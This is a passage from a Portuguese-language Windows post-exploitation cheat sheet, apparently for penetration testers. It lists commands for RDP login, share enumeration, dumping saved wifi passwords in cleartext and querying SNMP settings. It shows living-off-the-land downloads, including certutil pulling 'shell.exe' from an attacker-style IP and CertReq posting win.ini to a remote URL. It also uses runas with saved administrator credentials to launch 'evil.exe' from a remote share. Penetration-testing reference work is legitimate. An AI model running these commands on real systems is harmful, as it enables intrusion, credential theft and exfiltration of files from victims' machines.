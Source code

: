 ```bash
xfreerdp /u:hacker /d:WORKGROUP /p:Hacker123! /v:10.11.1.49
```
### Compartilhamentos
```bash
net view #Get a list of computers
net view /all /domain [domainname] #Shares on the domains
net view \\computer /ALL #List shares of a computer
net use x: \\computer\share #Mount the share locally
net share #Check current shares
```
### Wifi
```bash
netsh wlan show profile #AP SSID
netsh wlan show profile <SSID> key=clear #Get Cleartext Pass
```
### SNMP
```
reg query HKLM\SYSTEM\CurrentControlSet\Services\SNMP /s
```
### Interfaces de Rede
```bash
ipconfig /all
```
### Tabela ARP
```bash
arp -A
```
## Download

Bitsadmin.exe
```
bitsadmin /create 1 bitsadmin /addfile 1 https://live.sysinternals.com/autoruns.exe c:\data\playfolder\autoruns.exe bitsadmin /RESUME 1 bitsadmin /complete 1
```
CertReq.exe
```
CertReq -Post -config https://example.org/ c:\windows\win.ini output.txt
```
Certutil.exe
```
certutil.exe -urlcache -split -f "http://10.10.14.13:8000/shell.exe" s.exe
```
**Encontre muito mais procurando por `Download` em** [**https://lolbas-project.github.io**](https://lolbas-project.github.io/)

## Diversos
```bash
cd #Get current dir
cd C:\path\to\dir #Change dir
dir #List current dir
dir /a:h C:\path\to\dir #List hidden files
dir /s /b #Recursive list without shit
time #Get current time
date #Get current date
shutdown /r /t 0 #Shutdown now
type <file> #Cat file

#Runas
runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe" #Use saved credentials
runas /netonly /user:<DOMAIN>\<NAME> "cmd.exe" ::The password will be prompted

```